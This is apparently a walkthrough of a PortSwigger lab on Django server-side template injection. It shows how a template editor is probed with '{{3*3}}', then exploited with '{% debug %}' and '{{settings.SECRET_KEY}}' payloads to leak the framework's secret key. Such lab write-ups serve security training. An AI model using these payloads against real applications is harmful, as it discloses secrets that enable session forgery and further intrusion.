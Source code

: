 
# Server-side template injection with information disclosure via user-supplied objects

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials: content-manager:C0nt3ntM4n4g3r

---------------------------------------------

References: 

- https://portswigger.net/web-security/server-side-template-injection/exploiting



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/1.png)

---------------------------------------------


It is possible to edit the templates of the posts:



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/2.png)

We find there are values calculated with the format "${product.X}":



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/3.png)

Trying to add the payload “{{3*3}}” generates the following stack trace:



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/4.png)

```
Traceback (most recent call last):  File "<string>", line 11, in <module>  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__    self.nodelist = self.compile_nodelist()  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist    return parser.parse()  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse    raise self.error(token, e)django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '*3' from '3*3'
```

Knowing it uses a Django template we can leak debug information with the payload:

```
{% debug %}
```



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/5.png)

There is an element “settings” in Django of type UserSettingsHolder:

```
{{settings}}
```



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/6.png)

It contains a SECRET_KEY field:

```
{{settings.SECRET_KEY}}
```



![img](images/Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects/7.png)
